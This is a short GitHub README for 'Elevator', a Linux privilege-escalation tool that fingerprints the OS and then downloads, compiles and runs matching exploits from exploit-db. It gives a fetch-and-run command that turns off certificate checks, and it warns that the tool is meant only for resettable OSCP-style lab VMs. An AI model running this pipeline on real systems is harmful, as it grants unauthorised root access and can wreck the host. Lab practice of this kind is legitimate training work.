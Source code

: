 # Elevator [![Build Status](https://travis-ci.org/guifre/Elevator.svg?branch=master)](https://travis-ci.org/guifre/Elevator.svg?branch=master) [![Coverage Status](https://coveralls.io/repos/github/guifre/Elevator/badge.svg?branch=master)](https://coveralls.io/github/guifre/Elevator?branch=master)

Elevator automates elevation of privileges in Linux systems. It fingerprints the operating system version, downloads, compiles, and executes the relevant exploits from `exploit-db`.

## Getting Started


```
wget --no-check-certificate https://raw.githubusercontent.com/guifre/Elevator/master/elevator.py; ./elevator.py
```

## WARNING
Executing this script will potentially download and run hundreds of exploits, which can cause permanent damage to the operating system.

This script is intended to facilitate EoP in OSCP like labs, do not run this anywhere else other than VMs that can be easily reset.